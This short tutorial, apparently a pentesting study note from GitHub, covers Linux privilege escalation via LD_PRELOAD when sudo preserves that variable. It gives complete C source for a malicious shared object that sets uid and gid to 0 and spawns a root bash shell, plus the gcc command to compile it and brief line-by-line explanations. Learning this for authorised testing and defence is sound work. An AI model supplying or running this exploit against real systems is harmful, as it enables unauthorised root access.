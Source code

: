 ![image](https://user-images.githubusercontent.com/96658935/147622984-7193ceee-663b-4649-b16c-65016f201af4.png)


This means we can run a script before any other libraries. When you run sudo -l and see this output do the following:


```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

```
* save file as [x].c so it can be compiled.
* This code includes standard io,sys types, and standard libraries.
* Then it unsets the library preload which is LD_PRELOAD.
* Then set setgid and setuid to zero which is root.
* Then the system executes /bin/bash.


```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

* compile with gcc
* -fPIC - means regardless where your shell addressing is this is going to function.

![image](https://user-images.githubusercontent.com/96658935/147623630-592e8830-8d78-4622-8b83-17850228b9e2.png)


![image](https://user-images.githubusercontent.com/96658935/147623687-68cf5bac-147d-4db2-97ae-bd001bb4de84.png)


Now that it's compiled you can run it with one of the sudo-l commands and get root
